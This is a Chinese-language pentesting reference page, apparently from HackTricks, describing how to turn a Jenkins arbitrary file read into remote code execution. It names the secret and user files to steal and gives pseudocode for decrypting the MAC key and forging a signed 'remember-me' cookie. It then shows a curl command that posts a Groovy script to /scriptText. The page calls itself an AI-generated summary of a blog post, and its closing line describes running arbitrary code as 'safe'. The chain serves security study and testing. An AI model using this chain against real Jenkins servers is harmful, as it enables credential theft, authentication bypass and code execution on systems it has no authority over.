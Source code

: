 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

在这篇博客文章中，可以找到将Jenkins中的本地文件包含漏洞转化为RCE的好方法：[https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

这是一个AI生成的摘要，内容涉及如何利用任意cookie的构造来获取RCE，利用本地文件读取，直到我有时间自己创建摘要为止：

### 攻击前提

- **功能要求：** “记住我”必须启用（默认设置）。
- **访问级别：** 攻击者需要整体/读取权限。
- **秘密访问：** 能够读取关键文件中的二进制和文本内容。

### 详细利用过程

#### 第一步：数据收集

**用户信息检索**

- 访问每个用户的用户配置和秘密，从`$JENKINS_HOME/users/*.xml`中收集：
- **用户名**
- **用户种子**
- **时间戳**
- **密码哈希**

**密钥提取**

- 提取用于签名cookie的加密密钥：
- **秘密密钥：** `$JENKINS_HOME/secret.key`
- **主密钥：** `$JENKINS_HOME/secrets/master.key`
- **MAC密钥文件：** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 第二步：Cookie伪造

**令牌准备**

- **计算令牌过期时间：**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // 将当前时间加一小时
```

- **连接令牌数据：**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC密钥解密**

- **解密MAC密钥文件：**

```javascript
key = toAes128Key(masterKey)  // 将主密钥转换为AES128密钥格式
decrypted = AES.decrypt(macFile, key)  // 解密.mac文件
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**签名计算**

- **计算HMAC SHA256：**

```javascript
mac = HmacSHA256(token, macKey) // 使用令牌和MAC密钥计算HMAC
tokenSignature = bytesToHexString(mac) // 将MAC转换为十六进制字符串
```

**Cookie编码**

- **生成最终Cookie：**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Base64编码cookie数据
```

#### 第三步：代码执行

**会话认证**

- **获取CSRF和会话令牌：**
- 向`/crumbIssuer/api/json`发送请求以获取`Jenkins-Crumb`。
- 从响应中捕获`JSESSIONID`，该ID将与记住我cookie一起使用。

**命令执行请求**

- **发送带有Groovy脚本的POST请求：**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovy脚本可用于在Jenkins环境中执行系统级命令或其他操作。

提供的示例curl命令演示了如何使用必要的头和cookie向Jenkins发送请求，以安全地执行任意代码。

{{#include ../../banners/hacktricks-training.md}}
